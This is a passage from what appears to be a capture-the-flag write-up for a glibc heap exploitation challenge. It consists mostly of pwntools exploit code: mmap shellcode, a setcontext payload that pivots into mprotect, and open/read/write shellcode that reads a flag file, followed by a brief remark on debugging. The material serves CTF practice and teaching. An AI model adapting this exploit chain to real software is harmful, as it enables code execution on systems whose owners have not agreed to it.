 ```python
mov rsi,0x1000
mov dx,0x7
mov r10,0x22
syscall
mov rsi,rax
xchg r9,rax
mov rdi,rax
syscall
push 0x1234000
ret
'''
edit(10,asm(top).ljust(0x10,'\x00')+p64(base+0x47b75)+p64(magic-0x18)+asm(shellcode))
#payload for setcontext
payload=p64(0x7ffff7b15e89-0x7ffff7a3b000+base)+p64(0x7ffff7a7d4d5-0x7ffff7a3b000+base)+p64(0)
payload=payload.ljust(0x28,'\x00')+p64(0xfffffffffffffff)+p64(0)
payload=payload.ljust(0x68,'\x00')+p64(magic&0xffffffffffff000)+p64(0x1000)
payload=payload.ljust(0x88,'\xff')+p64(0x7)
payload=payload.ljust(0xa0,'\x00')+p64(magic)+p64(libc.sym['mprotect'])
edit(12,payload)
free(12)
```

* open+read+write
```python
sh='''
mov rsp,0x1234400
mov rax,2
mov rdi,0x67616c662f2e
push rdi
mov rdi,rsp
mov rsi,0
mov rdx,0
syscall
mov rdi,rax
mov rax,0
mov rsi,0x1234500
mov rdx,0x100
syscall
mov rax,1
mov rdi,1
mov rsi,0x1234500
mov rdx,0x100
syscall
'''
sh=asm(sh)
p.send(sh)
```

..I try to shrink the length of my shellcode,So that I can finish my exp in chunk_12.emmm, but I just wasted a lot of time and failed for unknow reason....
so I have to have more space to write my shellcode to locate the problem ...but I ... get the flag ...


[1]: https://n132.github.io/2019/05/07/2019-05-07-House-of-Storm/
[2]: https://n132.github.io/2019/05/10/2019-05-08-Startctf2019-Heap-master/#setcontext()
